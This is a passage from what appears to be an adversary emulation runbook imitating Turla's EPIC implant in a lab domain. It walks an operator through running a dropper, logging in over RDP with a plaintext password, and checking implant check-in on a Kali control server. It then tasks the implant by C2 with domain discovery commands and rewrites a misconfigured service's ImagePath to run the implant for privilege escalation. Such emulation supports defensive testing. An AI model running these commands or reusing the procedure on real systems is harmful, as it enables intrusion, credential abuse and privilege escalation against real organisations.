 * Double click and run NTFVersion.exe

:o: Wait 1 minute then close out of all tabs and sign out of the RDP session to `hobgoblin` as `Gunter`.

:arrow_right: Re-RDP to `hobgoblin (10.20.20.102)` as `Gunter`:

| Username   | Password |
| :--------: | :---------------: |
| skt\Gunter  | Password1! |

* Open Microsoft Edge and browse to `https://brieftragerin.skt.local/owa`.

:arrow_right: **Set a timer for 2 minutes** then switch to your Kali control server terminal and
confirm that a new implant has registered and the automated discovery output has been returned in
the server log.

**NOTE:** The injector will wait **2 minutes**, before injecting EPIC's Guard DLL into explorer.exe and,
subsequently, EPIC's worker DLL into Microsoft Edge.

* Within your Kali control server terminal window, right click and select "Split Terminal Horizontally". Be careful not to terminate the control server.

* In your lower terminal tab, copy and paste the first set of discovery commands:

```bash
cd /opt/day1/turla/Resources/control_server
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | net group "Domain Admins" /domain && net group "Domain Computers" /domain && net group "Domain Controllers" /domain && tasklist /svc'
```

* :heavy_exclamation_mark: Verify that the `ViperVPNSvc` service shows up in the tasklist output towards the end.

```bash
grep 'ViperVPNSvc' logs.txt -i
```

* This should return:
>
* ```text
      >viperVpn.exe                  <PID> ViperVPNSvc
      >```

* Wait for the command to return before tasking the next command to query the service and who can access it:

```bash
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | reg query HKLM\SYSTEM\CurrentControlSet\Services\ViperVPNSvc && powershell "$(Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\ViperVPNSvc).Access"'
```

* Wait for the command to return before tasking EPIC to modify the misconfigured ViperVPNSvc service to use our implant to execute:

```bash
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | reg add "HKLM\system\currentcontrolset\services\ViperVPNSvc" /t REG_EXPAND_SZ /v ImagePath /d "cmd.exe /c %TEMP%\mxs_installer.exe" /f'
```
